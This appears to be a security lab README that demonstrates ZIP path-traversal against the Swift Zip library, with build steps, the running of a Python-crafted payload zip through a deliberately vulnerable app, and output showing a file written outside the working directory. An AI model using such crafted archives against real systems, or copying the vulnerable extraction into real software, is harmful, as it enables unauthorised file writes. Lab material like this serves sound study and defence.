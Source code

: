 # Swift Decompression Attack Lab

## [Zip](https://github.com/marmelroy/Zip.git)

From `ZipLab` directory install the package with the following command:

```sh
swift package update

# Output:
Fetching https://github.com/marmelroy/Zip.git from cache
Fetched https://github.com/marmelroy/Zip.git from cache (1.25s)
Computing version for https://github.com/marmelroy/Zip.git
Computed https://github.com/marmelroy/Zip.git at 2.1.2 (0.76s)
Creating working copy for https://github.com/marmelroy/Zip.git
Working copy of https://github.com/marmelroy/Zip.git resolved at 2.1.2
```

Once we have installed the library we can build our swift application:

```sh
swift build

# Output
Building for debugging...
[7/7] Applying ZipBad
Build complete! (0.87s)
```

The zip payload is crafted using python `zipfile`, the payloads writes `poc.txt` out of the current working directory, causing ZIP path traversal.

```sh
python3 poc.py
```

Pass the payload to the executable:

```sh
swift run ZipBad payload.zip

# Output
Building for debugging...
[1/1] Write swift-version--X.txt
Build complete! (0.07s)
```

Now `poc.txt` is an existing file located out of our working directory:

```sh
ls ../
README.md
ZipLab
poc.txt
```

